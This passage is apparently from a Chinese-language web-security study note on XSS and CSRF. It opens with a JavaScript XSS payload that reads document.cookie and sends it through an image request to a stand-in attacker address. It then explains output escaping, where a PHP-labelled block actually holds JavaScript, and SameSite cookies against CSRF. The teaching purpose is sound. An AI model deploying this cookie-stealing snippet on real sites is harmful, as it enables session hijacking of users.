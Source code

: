 ```js
// 駭客想要送到的地方
let address = "http://localhost:5000";
// 建立 <img>
let img = document.createElement("img");
// 存取 cookie 的代碼
let cookie = document.cookie;
// 設定 <img src="http://localhost:5000?cookie=value">
img.setAttribute("src", `${address}/?cookie=${encodeURIComponent(cookie)}`);
// 插到 DOM 裡面
document.body.appendChild(img);
```

如果你好奇實際上長什麼樣，可以參考我寫的文章：[從玩壞自己的網站來學習 XSS](http://localhost:4000/2022/02/09/what-is-xss/#:~:text=%E6%97%A2%E7%84%B6%20document.cookie%20%E5%8F%AF%E4%BB%A5%E5%AD%98%E5%8F%96%E3%80%8C%E4%BD%BF%E7%94%A8%E8%80%85%E5%9C%A8%E9%80%99%E5%80%8B%E7%B6%B2%E7%AB%99%E5%84%B2%E5%AD%98%E7%9A%84%20cookie%E3%80%8D%EF%BC%8C%E9%82%A3%E9%BA%BC%E5%8F%AA%E8%A6%81%E7%99%BC%E6%8F%AE%E3%80%8C%E5%89%B5%E6%84%8F%E3%80%8D%EF%BC%8C%E5%B0%B1%E5%8F%AF%E4%BB%A5%E6%8A%8A%20cookie%20%E9%80%81%E5%88%B0%E9%A7%AD%E5%AE%A2%E6%83%B3%E8%A6%81%E7%9A%84%E5%9C%B0%E6%96%B9%EF%BC%88%E7%95%B6%E6%88%91%20foodpanda%EF%BC%9F%EF%BC%89%EF%BC%8C%E4%BE%8B%E5%A6%82%E8%AA%AA%EF%BC%9A)

以上就是 XSS 的攻擊方式及原理。

### 防範方法

因為問題跟 SQL Injection 一樣都是出在**使用者的輸入**，所以解法也一樣：**先過濾，在輸出**，就可以解決了。 

PHP 一樣有提供內建函式可以處理：

```php
// 變成純字串
$nickname = htmlspecialchars($row['nickname']);
echo $nickname;
```

或要自己寫一個 function 也行：

```php
/* 把 < > @ ' " 都做字元跳脫 */
function escapeHTML($unsafe) {
  return $unsafe
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/'/g, '&#039;')
    .replace(/"/g, '&quot;')
}
```

總之，這樣的輸出值都會是純字串，不會再被解析成程式碼。


## 請說明 CSRF 的攻擊原理以及防範方法

簡單來說就是利用「使用者的登入狀態」來發出偽造的 request。

防範方法有很多種，但最保險的做法應該是用 Chrome 提供的 SameSite 來設定 cookie。

關於 CSRF 我還不太熟，但我有寫一篇文章來紀錄，有興趣可以參考看看：[認識 CSRF](https://jubeatt.github.io/2022/02/22/what-is-csrf/)